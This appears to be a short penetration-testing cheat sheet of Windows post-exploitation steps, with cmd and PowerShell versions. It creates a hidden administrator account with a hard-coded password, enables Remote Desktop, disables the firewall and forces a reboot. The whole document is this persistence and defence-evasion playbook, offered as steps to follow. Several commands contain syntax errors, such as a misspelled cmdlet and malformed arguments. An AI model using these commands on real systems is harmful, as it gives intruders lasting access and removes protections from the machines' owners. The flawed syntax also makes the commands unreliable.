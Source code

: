 # Post Exploitation

### Must DO Steps after getting shell in windows machine

#### 1. Add a new user

```cmd
net user AdminTest password@123 /add
```

#### 2. Add a user to Administrator Group

```cmd
net localgroup Administrators AdminTest /add
```

#### 3. Enable Remote Desktop

```cmd
reg add "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d /0 /f
```

* this sets 'fDenyTSConnection' to '0', enabling Remote Desktop

#### 4. Turn Off Windows Firewall

```cmd
netsh advfirewall set all profiles state off
```

#### 5. Restart

```cmd
shutdown /r /t 0 /f
```

\


### Powershell Alternative

#### 1. Add a user "AdminTest"

```powershell
New-LocalUser -Name "AdminTest" -Password (ConvertTo-SecureString "password@123" -AsPlainText -Force) -FullName "Admin Test User" -Description "Admin Test Account"
```

#### 2. Add a user to Administrator Group

```powershell
Add-LocalGroupMember -Group "Administrator" -Member "AdminTest"
```

#### 3. Enable Remote Desktop

```powershell
Set-ItemPropery 'HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server' -Name fDenyTSConnections -Value 0
```

* this sets 'fDenyTSConnection' to '0', enabling Remote Desktop

#### 4. Allow RDP through Firewall

```powershell
Enable-NetFirewallRule -Group "Remote Desktop"
```

#### 5. Turn Off Windows Firewall

```powershell
Set-NetFirewallProfile -Profile Domain,Public,Private -Enabled False
```
